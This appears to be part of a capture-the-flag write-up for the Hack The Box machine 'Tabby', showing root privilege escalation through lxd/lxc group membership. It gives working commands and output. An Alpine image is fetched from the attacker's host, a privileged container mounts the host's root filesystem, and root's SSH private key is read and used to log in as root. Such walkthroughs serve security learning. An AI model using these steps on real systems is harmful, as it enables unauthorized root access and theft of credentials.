 * __upload that image in the host.__
* __import in lxc and configure that image,__
* __mount root filesystem.__
* __run container instance.__

# Root Privesc

__Frist__, create a alpine image , it takes some time to download all packages

`./build-alpine`

	Determining the latest release... v3.12                                                  
	Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64
	...
	OK: 8 MiB in 19 packages 

after downloading completed a single tar file generated

	3.1M -rw-r--r-- 1 rj rj 3.1M Sep 14 15:25 alpine-v3.12-x86_64-20200914_1025.tar.gz

__Second__, upload using `wget`

	ash@tabby:~$ wget 10.10.15.151/alpine-v3.12-x86_64-20200914_1025.tar.gz
	...
	alpine-v3.12-x86_64-2 100%[===================>]   3.07M   28.4MB/s    in 0.1s     
	...
	ash@tabby:~$ ls -la alpine*
	-rw-rw-r-- 1 ash ash 3221262 Sep 14 14:25 alpine-v3.12-x86_64-20200914_1025.tar.gz


__Third__, import and configure the image into lxc

	ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20200914_1025.tar.gz --alias ANYTHING
	ash@tabby:~$ lxc init ANYTHING pwned -c security.privileged=true
	Creating pwned
	ash@tabby:~$ lxc list                      
	+-------+---------+------+------+-----------+-----------+
	| NAME  |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
	+-------+---------+------+------+-----------+-----------+
	| pwned | STOPPED |      |      | CONTAINER | 0         |
	+-------+---------+------+------+-----------+-----------+
	ash@tabby:~$
	
__Forth__, mount host filesystem

	ash@tabby:~$ lxc config device add pwned mydevice disk source=/ path=/mnt/root recursive=true
	Device mydevice added to pwned
	ash@tabby:~$
	
__Fifth__, run image

	ash@tabby:~$ lxc start pwned
	ash@tabby:~$ lxc exec pwned /bin/sh
	~ # id
	uid=0(root) gid=0(root)
	~ # whoami
	root
	~ # cd /mnt/root
	/mnt/root # cd root/.ssh
	/mnt/root/root/.ssh # ls -la id_rsa
	-rw-------    1 root     root          2602 Jun 16 14:00 id_rsa

__Extra__, get ssh shell

`chmod 600 id_rsa`
	
`ssh -i id_rsa root@10.10.10.194`

	root@tabby:~# cat root.txt
	1b322db4************************